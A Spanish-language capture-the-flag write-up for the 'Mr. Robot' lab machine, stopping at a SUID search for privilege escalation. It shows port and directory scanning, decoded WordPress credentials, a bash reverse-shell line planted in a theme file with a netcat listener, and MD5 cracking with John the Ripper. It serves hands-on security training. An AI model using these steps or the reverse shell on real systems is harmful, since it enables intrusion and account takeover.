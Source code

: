# Reto 5 - Mr. Robot
Herramientas utilizadas:
- nmap
- netcat
- john the ripper
- gobuster
- hashidentificar
- hydra
- 

Este reto consiste en aplicar técnicas de hacking para encontrar tres banderas en la máquina víctima. Luego de identificar el host procedemos a utilizar la herramienta ```nmap``` para determinar los servicios y versiones que corren por los puertos que tiene abiertos la máquina víctima.
```
nmap 10.32.2.48 -sCV -Pn -p-
```
```
Host is up (0.084s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn\'t have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=www.example.com
```
Podemos observar que encontramos tres puertos abiertos. Procedemos a revisar la web que se exporta por el puerto 80.

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-1.png" /> </p>

Utilizamos la herramienta ```gobuster``` para listar los directorios existentes en la web.
```
gobuster dir --url http://10.32.2.48/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt

===============================================================
/images (Status: 301)
/video (Status: 301)
/rss (Status: 301)
/image (Status: 301)
/blog (Status: 301)
/0 (Status: 301)
/audio (Status: 301)
/sitemap (Status: 200)
/admin (Status: 301)
/feed (Status: 301)
/robots (Status: 200)
/dashboard (Status: 302)
/login (Status: 302)
/phpmyadmin (Status: 403)
/intro (Status: 200)
/license (Status: 200)
/wp-content (Status: 301)
/css (Status: 301)
/js (Status: 301)
```

Accedemos al directorio **/robots** y nos encontramos con dos ficheros de interés. Listamos el contenido del fichero **key-1-of-3.txt** y encontramos la primera flag del reto.

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-2.png" /> </p>

Primera flag: ```flag{073403c8a58a1f80d943455fb30724b9}```


Revisando otros directorios encontramos que en ```/license``` se mostraba un mensaje que parecía no muy relevante. Al observar al final de la web, nos mostraban una cadena en base64.

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-3.png" /> </p>

Decodificamos la cadena para llevarla a texto claro y obtenemos un posible usuario y contraseña.
```
echo "ZwxsaW90kVSMjgtMDY1Mgo=" | base64 -d
  elliot:ER28-0652
```
Accedemos al panel de login de Wordpress y probamos las credenciales encontradas.

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-4.png" /> </p>
<p align="center"> <img src="../../img_JCE_UCI2024/reto5-5.png" /> </p>

Ya logueados nos aprovechamos del apartado **Appearance** para subir una **reverse shell** y ganar acceso a la máquina. Agregamos la línea de código siguiente:
```
bash -i >& /dev/tcp/10.8.144.236/4142 0>&1
```
Posteriormente nos ponemos en escucha en nuestra máquina local con ```netcat``` y accedemos al archivo donde se encuentra el código agregado para ganar acceso a la máquina víctima. ```URL:  http://10.32.2.48/wp-content/themes/twentyfifteen/archive.php```
```
nc -nlvp 4142
```

Dentro de la máquina víctima procedemos a listar el contenido del directorio **/home/robot**

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-6.png" /> </p>

Nótese que el archivo de la flag solo puede ser leído por el propietario. Revisamos el fichero **** y encontramos unas credenciales potenciales. 

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-7.png" /> </p>

La contraseña se encontraba cifrada en MD5 por lo que tubimos que descifrarla utilizando la herramienta ```John The Ripper```

```
john --format=raw-md5 --wordlist=/usr/share/wordlist/rockyou.txt hash.txt
  
  Using default input encoding: UTF-8
  Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
  Warning: no OpenMP support for this hash type, consider --fork=2
  Press 'q' or Ctrl-C to abort, almost any other key for status

  abcdefghijklmnopqrstuvwxyz (robot)
```

En este punto nos podemos convertir en el usuario robot proporcionando la contraseña encontrada y listamos la segunda flag del reto.
```
su robot
```

```
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```
Segunda flag: flag{822c73956184f694993bede3eb39f959}

Para encontrar la tercera y última flag del reto necesitamos escalar privilegios para convertirnos en root. Buscamos por permisos SUID y encontramos que el binario nmap está corriendo con permisos SUID.
```
find / -perm -u=s -type f 2>/dev/null
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto5-8.png" /> </p>


